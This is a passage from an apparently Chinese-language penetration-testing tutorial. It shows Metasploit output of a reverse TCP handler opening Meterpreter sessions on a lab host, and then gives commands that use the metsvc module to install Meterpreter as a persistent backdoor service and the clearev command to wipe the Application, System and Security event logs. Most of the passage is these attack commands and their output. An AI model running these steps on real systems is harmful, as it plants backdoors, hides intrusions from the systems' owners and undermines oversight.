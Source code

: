 ```

[*] Started reverse TCP handler on 192.168.135.134:4444 
[*] Sending stage (179779 bytes) to 192.168.135.136
[*] Sleeping before handling stage...
[*] Meterpreter session 3 opened (192.168.135.134:4444 -> 192.168.135.136:2364) at 2019-02-19 21:42:12 +0800
[*] Sending stage (179779 bytes) to 192.168.135.136
[*] Sleeping before handling stage...
[*] Meterpreter session 4 opened (192.168.135.1

```

或者我们可以使用metsvc模块来留下后门

metsvc后渗透攻击模块其实就是将Meterpreter以系统服务的形式安装到目标主机，它会上传三个文件：

- metsvc.dll

- metsvc-service.exe

- metsvc.exe

  ```
  msf exploit(multi/handler) > sessions -i 2 //选择一个会话
  meterpreter > run metsvc  //运行metsvc
  ```

  清除日志:

  ```
  meterpreter > clearev 
  [*] Wiping 1 records from Application...
  [*] Wiping 26 records from System...
  [*] Wiping 2281 records from Security...
  
  ```

  


